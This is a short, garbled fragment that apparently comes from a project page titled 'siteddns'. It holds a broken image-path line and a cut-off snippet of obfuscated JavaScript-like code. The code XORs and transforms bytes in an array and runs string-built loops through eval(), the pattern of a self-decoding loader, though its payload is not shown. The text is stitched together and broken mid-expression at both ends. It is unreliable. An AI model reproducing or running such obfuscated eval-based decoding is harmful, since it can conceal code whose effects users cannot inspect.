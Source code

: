  # siteddns
=4){is[ks]=((-((~is[ks])&0xff))&0xff)^1;ks--;}ks="ks=48;while(ks>=4){is[ks]=(is[ks]-is[ks-1])&0xff;ks--;}";eval(ks);ks="ks=51;while(true){if(ks
